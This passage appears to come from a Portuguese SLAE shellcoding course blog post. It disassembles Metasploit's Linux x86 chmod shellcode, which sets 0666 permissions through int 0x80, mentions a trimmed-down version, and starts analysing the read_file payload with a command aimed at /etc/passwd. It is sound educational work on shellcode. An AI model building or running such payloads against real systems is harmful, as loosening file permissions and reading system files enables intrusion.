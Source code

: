 {% highlight console %}
00000017  68B6010000        push dword 0x1b6
0000001C  59                pop ecx
{% endhighlight %}

O valor hexa 0x1b6 corresponde ao octal 0666.

{% highlight console %}
$ printf '%o\n' 0x01b6
666
{% endhighlight %}

ou

{% highlight console %}
$ printf '%x\n' 0666 (lembre-se de colocar o zero à esquerda)
0x1b6
{% endhighlight %}

O restante do payload trata de chamar a syscall chmod com a INT 0x80 e fechar o
programa explorado.

{% highlight console %}
0000001D  CD80              int 0x80

0000001F  6A01              push byte +0x1
00000021  58                pop eax
00000022  CD80              int 0x80
{% endhighlight %}

O chmod do msf tem 36 bytes. Dele consegui diminuir 2 bytes e ainda evitar
possíveis bytes lixo; vejam abaixo.

{% gist geyslan/5424493 %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/5th.assignment/tiny_chmod.png" caption="Fluxograma linux/x86/chmod" %}

##2nd - linux/x86/read_file

{% highlight console %}
$ msfpayload linux/x86/read_file PATH=/etc/passwd S

       Name: Linux Read File
     Module: payload/linux/x86/read_file
    Version:
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 180
       Rank: Normal

Provided by:
  hal

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FD    1                yes       The file descriptor to write output to
PATH  /etc/passwd      yes       The file path to read

Description:
  Read up to 4096 bytes from the local file system and write it back
  out to the specified file descriptor
{% endhighlight %}
